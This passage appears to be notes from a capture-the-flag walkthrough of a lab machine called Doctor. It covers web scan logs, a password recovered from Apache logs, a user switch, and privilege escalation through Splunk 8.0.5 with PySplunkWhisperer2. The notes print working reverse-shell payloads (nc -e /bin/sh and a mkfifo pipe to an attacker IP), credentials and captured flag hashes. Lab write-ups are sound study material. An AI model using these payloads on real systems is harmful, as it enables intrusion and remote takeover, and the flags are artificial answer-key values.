access.log.1:1682319:10.10.14.73 - - [01/Jan/2021:21:44:25 +0100] "HEAD /images/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1695367:10.10.14.73 - - [01/Jan/2021:21:44:31 +0100] "HEAD /css/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1697846:10.10.14.73 - - [01/Jan/2021:21:44:32 +0100] "HEAD /icons/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1700351:10.10.14.73 - - [01/Jan/2021:21:44:33 +0100] "HEAD /icons/small/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1707982:10.10.14.73 - - [01/Jan/2021:21:44:37 +0100] "HEAD /fonts/flaticon/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1709831:10.10.14.73 - - [01/Jan/2021:21:44:38 +0100] "HEAD /fonts/flaticon/font/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1711587:10.10.14.73 - - [01/Jan/2021:21:44:39 +0100] "HEAD /icons/small/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1715613:10.10.14.73 - - [01/Jan/2021:21:44:41 +0100] "HEAD /fonts/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1720805:10.10.14.73 - - [01/Jan/2021:21:44:43 +0100] "HEAD /js/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1721657:10.10.14.73 - - [01/Jan/2021:21:44:44 +0100] "HEAD /fonts/icomoon/fonts/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1736592:10.10.14.73 - - [01/Jan/2021:21:44:50 +0100] "HEAD /fonts/flaticon/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1737790:10.10.14.73 - - [01/Jan/2021:21:44:51 +0100] "HEAD /fonts/flaticon/font/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1739366:10.10.14.73 - - [01/Jan/2021:21:44:52 +0100] "HEAD /fonts/icomoon/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1745668:10.10.14.73 - - [01/Jan/2021:21:44:54 +0100] "HEAD /fonts/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1758210:10.10.14.73 - - [01/Jan/2021:21:45:00 +0100] "HEAD /fonts/icomoon/fonts/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1760756:10.10.14.73 - - [01/Jan/2021:21:45:01 +0100] "HEAD /fonts/icomoon/reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1937195:10.10.14.77 - - [01/Jan/2021:21:56:59 +0100] "GET /reset_password HTTP/1.1" 200 1859 "http://doctors.htb/login?next=%2F" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
access.log.1:1940662:10.10.14.86 - - [01/Jan/2021:22:49:02 +0100] "GET /reset_password.php HTTP/1.1" 404 452 "-" "gobuster/3.0.1"
access.log.1:1948465:10.10.14.86 - - [01/Jan/2021:22:51:55 +0100] "GET /reset_password.html HTTP/1.1" 404 433 "-" "gobuster/3.0.1"
access.log:239:10.10.14.86 - - [02/Jan/2021:00:21:56 +0100] "GET /reset_password HTTP/1.1" 200 2012 "http://doctors.htb/login?next=%2F" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```
Guitar123

```
$ su shaun
su shaun
Password: Guitar123

shaun@doctor:/var/log/apache2$ cd  
cd
shaun@doctor:~$ ls -la
ls -la
total 44
drwxr-xr-x 6 shaun shaun 4096 Sep 15 12:51 .
drwxr-xr-x 4 root  root  4096 Sep 19 16:54 ..
lrwxrwxrwx 1 root  root     9 Sep  7 14:31 .bash_history -> /dev/null
-rw-r--r-- 1 shaun shaun  220 Sep  6 16:26 .bash_logout
-rw-r--r-- 1 shaun shaun 3771 Sep  6 16:26 .bashrc
drwxr-xr-x 4 shaun shaun 4096 Sep 22 13:00 .cache
drwx------ 4 shaun shaun 4096 Sep 15 11:14 .config
drwx------ 4 shaun shaun 4096 Sep 15 11:57 .gnupg
drwxrwxr-x 3 shaun shaun 4096 Sep  6 18:01 .local
-rw-r--r-- 1 shaun shaun  807 Sep  6 16:26 .profile
-rw-rw-r-- 1 shaun shaun   66 Sep 15 12:51 .selected_editor
-r-------- 1 shaun shaun   33 Jan  1 21:10 user.txt
shaun@doctor:~$ cat user.txt
cat user.txt
8a6ad781bb59d53f43e0e5124e8384c9
```

for tomorrow, maybe this users shares some directories with root, maybe splunk user/pass, and we can exploit splunk 8.0.5 with these user/password

## Linpeas
...
root        1137  0.2  2.3 282336 94656 ?        Sl   04:29   1:42 splunkd -p 8089 start
...
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                                                                                                                                                 
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep                                                                                                                                                                                                                              
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/python3.8 = cap_sys_ptrace+ep -------------------------------------------------------------------------------------------------------------------------------------------------------
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
...

## RCE Splunk 8.0.5

[Abusing Splunk Forwarders For Shells and Persistence](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)


but no user/password...

with shaun user checking creds for splunk...

https://docs.splunk.com/Documentation/Splunk/8.0.5/Security/Secureyouradminaccount, as we can see in password documentation the hash has the same format as the printed in linpeas, but nah...
https://md5hashing.net/hash/md5/8ac5909dc3b89e3bd43c796a55614295

maybe with shaun/Guitar124, this user could be the admin, only user in /home




https://www.exploit-db.com/exploits/18245 NO
https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2 YES


```
┌──(kali㉿kali)-[~/SplunkWhisperer2/PySplunkWhisperer2]
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.94 --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh "10.10.14.94" "6770"'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp26358knb.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.94:8181/
10.10.10.209 - - [02/Jan/2021 11:23:57] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 6770                                                                                                                                                                                                                      1 ⨯
listening on [any] 6770 ...
ls
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.209] 40756
python3 -c "import pty; pty.spawn('/bin/sh')"
# whoami && id && pwd
whoami && id && pwd
root
uid=0(root) gid=0(root) groups=0(root)
/
# cat /root/root.txt
cat /root/root.txt
4878c9231392ae8e0b55c3306e9c4353
```
reverse shell with mkfifo: http://www.reydes.com/d/?q=Crear_un_Shell_Inverso_utilizando_mkfifo
```
┌──(kali㉿kali)-[~/SplunkWhisperer2/PySplunkWhisperer2]
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.94 --username shaun --password Guitar123 --payload 'mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | /bin/nc 10.10.14.94 6770 >/tmp/f'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp8qggda8d.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.94:8181/
10.10.10.209 - - [02/Jan/2021 11:56:10] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 6770
listening on [any] 6770 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.209] 40846
/bin/sh: 0: can't access tty; job control turned off
# ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swapfile
sys
tmp
usr
var
# 

```